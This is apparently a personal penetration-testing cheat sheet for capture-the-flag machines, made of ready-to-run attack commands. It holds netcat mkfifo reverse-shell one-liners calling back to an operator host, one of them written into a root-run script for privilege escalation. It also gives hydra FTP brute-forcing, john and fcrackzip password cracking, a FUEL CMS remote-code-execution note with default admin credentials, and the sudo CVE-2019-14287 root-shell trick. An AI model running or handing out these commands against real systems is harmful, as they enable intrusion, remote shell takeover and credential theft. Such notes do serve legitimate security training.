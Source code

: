 ## nmap scan
sudo nmap -sC -sV -v -oN nmap.md TARGET_IP 


## Gobuster Scan
sudo gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://TARGET_IP/

sudo gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://TARGET_IP/ -x php,py,js,css,html,txt

sudo gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://TARGET_IP/ -x php,py,js,css,html,txt


## dirbuster scan
sudo dirb http://TARGET_IP/ -R 

# Cat all find read
cat *


# import TARGET_IP
$IP


# To Check Sudo Permissions
sudo -l
sudo su
su root

# curl command to change alphabets [agent-user] in web
sudo curl -A "CHANGE_LETTER" -L TARGET_IP


# prev esc linux bash shell
sudo bash

# download file from SSH TARGET MACHINE
scp USERNAME@TARGET_IP_ADDRS:FILENAME


# perl write to copy.sh [reverse shell]
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc LOCAL_IP 5554 >/tmp/f' >/etc/copy.sh

sudo /usr/bin/perl /home/itguy/backup.pl

# FTP Usage
ftp TARGET_IP


# python shell - stable bash shell
python3 -c  'import pty;pty.spawn("/bin/bash")'


# FUEL CMS Exploit 1.4.1 CVE-2018-16763
run command with ""
example:
CMD: "ls -la"
default cred: admin: admin


# FUEL CMS Database login info
fuel/application/config
cat database.php


# netcat revershell
"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc TARGET_IP 1234 >/tmp/f"


# hydra command to brute-force FTP with username
sudo hydra -l USERNAME -P /usr/share/wordlists/rockyou.txt TARGET_IP ftp


# run python http server
sudo python -m SimpleHTTPServer 80


# wget download file
sudo wget http://LOCAL_IP/FILE_NAME -0  PATH/PATH/

sudo wget http://YOUR_IP_ADDRS:8080/FILENAME


# john cracking the password
sudo john HASH_FILENAME --wordlist=/usr/share/wordlists/rockyou.txt

# john ZIP file cracking
sudo zip2john FILENAME.zip > OUTFILENAME

# fcrackzip command
fcrackzip <zip-file> -D -p /usr/share/wordlists/rockyou.txt

# 7zip
7z e ZIP_FILENAME  

# steghide command
steghide info FILENAME [info about filename]

steghide extract -sf FILENAME [extract]

# CyberChef to crack hash [base64]
https://gchq.github.io/CyberChef/

# sudo 1.8.21 exploit CVE-2019-14287
sudo -u#-1 /bin/bash [spawn as root] 
